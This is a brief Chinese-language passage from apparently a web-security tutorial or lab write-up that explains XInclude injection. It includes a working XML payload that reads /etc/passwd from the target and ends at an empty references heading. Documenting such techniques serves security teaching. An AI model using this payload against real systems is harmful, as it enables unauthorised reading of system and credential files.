 ![image-20250512151542240](./img/image-20250512151542240.png)

执行 `XInclude` 攻击，需要引用 `XInclude` 命名空间并提供要包含的文件路径

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

![image-20250512152310246](./img/image-20250512152310246.png)

参考：
